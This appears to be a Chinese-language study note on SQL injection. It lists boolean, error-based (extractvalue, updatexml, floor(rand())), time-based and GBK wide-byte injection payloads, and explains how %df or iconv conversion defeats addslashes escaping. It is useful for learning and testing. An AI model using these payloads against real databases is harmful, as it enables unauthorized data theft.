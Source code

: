 # 盲注

 ## 1.基于布尔SQL盲注----------构造逻辑判断

 -   盲注就是在sql注入过程中，sql语句执行的选择后，选择的数据不能回显到前端页面。此时，我们需要利用一些方法进行判断或者尝试，这个过程称之为盲注：
      -  三大法宝：mid(),substr(),left()
      -  str="123456"     mid(str,2,1)    结果为2
      -  substr(DATABASE(),1,1)>’a’,查看数据库名第一位
      -  left(database(),1)>’a’,查看数据库名第一位，left(database(),2)>’ab’,查看数据库名前二位
      -  ORD()函数，此函数为返回第一个字符的ASCII码
      -  ASCII('a')
      -  regexp正则注入  
		 select user() regexp '^[a-z]'
      -  ike匹配注入  
			select user() like 'ro%'

## 2.   报错注入

1. rand不能和order by一起用
    -  `	select * from users where id=1 and (select 1 from (select count(*) from information_schema.tables group by concat(user(),floor(rand(0)*2)))a);`
    -  	 `select * from users where id=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a);`

2. 	extractvalue（）
    - `select * from users where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));  `  
    0x7e 代表   &nbsp; &nbsp;<b>~</b>
    - `select * from users where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));`
4. 利用数据重复性
    - ` select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;`

## 3.   基于时间的SQL盲注----------延时注入

   -   `If(ascii(substr(database(),1,1))>115,0,sleep(5))  `



#   宽字节注入


-   基本概概念
    -   宽字节是相对于ascII这样单字节而言的；像GB2312、GBK、GB18030、BIG5、Shift_JIS等这些都是常说的宽字节，实际上只有两字节

-   ## **判断方式：1.尝试；2.页面编码是gbk**

-   php中的转义函数有`addslashes，mysql_real_escape_string，mysql_escape_string`  
    经测试，`mysql_real_escape_string，mysql_escape_string`都已经过时  
    还有一种是配置`magic_quote_gpc`，不过PHP高版本已经移除此功能  

-   ##  **先了解下SQL的执行过程：**
    - 使用者输入数据后，会通过php的默认编码生成sql语句发送给服务器。
    - 宽字节注入指的是mysql数据库在使用宽字节（GBK）编码时，会认为两个字符是一个汉字（前一个ascii码要大于128（比如%df），才到汉字的范围），而且当我们输入单引号时，mysql会调用转义函数，将单引号变为\’，其中\的十六进制是%5c,mysql的GBK编码，会认为%df%5c是一个宽字节，也就是’運’，从而使单引号闭合（逃逸），进行注入攻击.
    - 宽字节注入发生的位置就是PHP发送请求到MYSQL时字符集使用character_set_client设置值进行了一次编码，然后服务器会根据character_set_connection把请求进行转码，从character_set_client转成character_set_connection，然后更新到数据库的时候，再转化成字段所对应的编码
        >%df%27===>(addslashes)====>%df%5c%27====>(GBK)==========>運’  
        >用户输入==> 过滤函数======> 代码层的$sql==>mysql处理请求==>mysql中的sql

    -   为了避免宽字节注入，很多人使用iconv函数（能够完成各种字符集间的转换`$text=iconv("UTF-8","GBK",$text);`），其实这样做是有很大风险的，仍旧可以造成宽字节注入。
    -   可以使用逆向思维，先找一个gbk的汉字錦,錦的utf-8编码是0xe98ca6，它的gbk编码是0xe55c,是不是已经看出来了，当传入的值是錦'，'通过addslashes转义为\'(%5c%27),錦通过icov转换为%e5%5c，终止变为了%e5%5c%5c%27,不难看出%5c%5c正好把反斜杠转义，使单引号逃逸，造成注入。
    -   `iconv("utf-8","gbk","錦");`编码转换  
        `echo bin2hex($t);`输出字节码



-   命令注入
    -   
